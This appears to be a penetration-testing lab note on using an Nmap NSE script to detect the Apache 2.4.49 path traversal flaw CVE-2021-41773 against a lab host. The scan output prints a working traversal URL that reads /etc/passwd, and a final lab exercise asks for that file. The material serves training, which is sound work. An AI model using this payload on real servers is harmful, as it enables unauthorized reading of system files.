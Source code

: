 # Working with NSE Scripts

Searching for an NSE script for a specific CVE in Google
>``` shell
>Google Search: CVE-2021-41773 nse
>```

Copy the NSE Script and update the script.db database
>``` shell
>kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
>
>kali@kali:~$ sudo nmap --script-updatedb
>
># ========== Expected Result ==========
>[sudo] password for kali: 
>Starting Nmap 7.92 ( https://nmap.org )
>NSE: Updating rule database.
>NSE: Script Database updated successfully.
>Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
># =====================================
>```

CVE-2021-41773 NSE Script
>``` shell
>kali@kali:~$ sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
>
># ========== Expected Result ==========
>Starting Nmap 7.92 ( https://nmap.org )
>Host is up (0.00069s latency).
>
>PORT    STATE SERVICE VERSION
>443/tcp open  http    Apache httpd 2.4.49 ((Unix))
>| http-vuln-cve2021-41773:
>|   VULNERABLE:
>|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
>|     State: VULNERABLE
>|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not >protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier >versions.
>|           
>|     Disclosure date: 2021-10-05
>|     Check results:
>|       
>|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>...
>Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
># =====================================
>```

Lab 1 - Retrieve the content of /etc/passwd for the flag
>``` shell
>kali@kali:~$ 
>
># ========== Expected Result ==========
>
># =====================================
>```
